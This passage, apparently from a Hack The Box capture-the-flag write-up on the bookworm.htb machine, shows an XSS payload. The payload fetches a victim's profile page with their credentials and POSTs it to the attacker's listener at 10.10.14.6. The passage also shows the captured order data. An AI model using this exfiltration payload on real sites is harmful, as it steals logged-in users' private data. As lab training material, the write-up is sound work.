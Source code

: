I noted [above](#tech-stack) that the cookies on the site are marked
HttpOnly, so exfiling those won't work. I don't know of any other sites
that might exist, but I could try to enumerate other ports on localhost.
Before doing that, I'll take a look at what these users can see on
`bookworm.htb`. I'll set the `xss` variable in my script to the
following to take a look at the user's profile:



    fetch('/profile', {credentials: "include"})
    .then((resp) => resp.text())
    .then((resptext) => {
      fetch("http://10.10.14.6/exfil", {
        method: "POST",
        mode: "no-cors",
        body: resptext
      });
    });



I'll listen with `nc` on port 80, and after a couple minutes, what
returns is the same as what I see on mine, with different data / orders.
The order numbers for the user are very low:



      <tbody>
        
        <tr>
          <th scope="row">Order #7</th>
          <td>Fri Dec 23 2022 20:10:04 GMT+0000 (Coordinated Universal Time)</td>
          <td>£34</td>
          <td>
            <a href="/order/7">View Order</
          </td>
        </tr>
        
        <tr>
          <th scope="row">Order #8</th>
          <td>Sun Dec 25 2022 20:10:04 GMT+0000 (Coordinated Universal Time)</td>
          <td>£80</td>
          <td>
            <a href="/order/8">View Order</
          </td>
        </tr>
        
        <tr>
          <th scope="row">Order #9</th>
          <td>Wed Dec 28 2022 20:10:04 GMT+0000 (Coordinated Universal Time)</td>
          <td>£34</td>
          <td>
            <a href="/order/9">View Order</
          </td>
        </tr>
        
        <tr>
          <th scope="row">Order #407</th>
          <td>Tue Jan 16 2024 17:56:24 GMT+0000 (Coordinated Universal Time)</td>
          <td>£40</td>
          <td>
            <a href="/order/407">View Order</
          </td>
        </tr>
        